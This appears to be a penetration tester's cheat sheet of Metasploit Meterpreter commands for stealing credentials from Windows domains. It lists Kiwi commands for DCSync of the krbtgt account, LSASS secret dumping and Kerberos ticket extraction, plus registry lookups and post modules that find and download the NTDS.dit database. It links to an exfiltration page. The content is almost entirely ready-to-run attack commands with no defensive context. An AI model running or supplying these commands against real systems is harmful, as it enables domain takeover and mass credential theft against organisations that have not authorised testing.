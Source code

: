 # Metasploit

## 01 - DC Synchronization

### 1.1 - Kiwi

```
meterpreter > dcsync krbtgt

meterpreter > dcsync_ntlm krbtgt
```

## 02 - LSASS Injection

### 2.1 - Kiwi

```
meterpreter > lsa_dump_secrets
```

## 03 - Kerberos

### 3.1 - Kiwi

```
meterpreter > creds_kerberos
```

## 04 - NTDS

### 4.1 - Meterpreter API Commands

```
meterpreter > reg enumkey [-r <domain_controller_IP>] -k HKLM\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters -v "DSA Database file" [-w <64>]
```

### 4.2 - Post Module

```
meterpreter > run post/windows/gather/file_from_raw_ntfs

meterpreter > run post/windows/gather/ntds_location

meterpreter > run post/windows/gather/ntds_grabber cleanup=true download=true
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/06 - File Transfer and Data Exfiltration/Windows/Archive Files/Zip|Windows Archive Files]]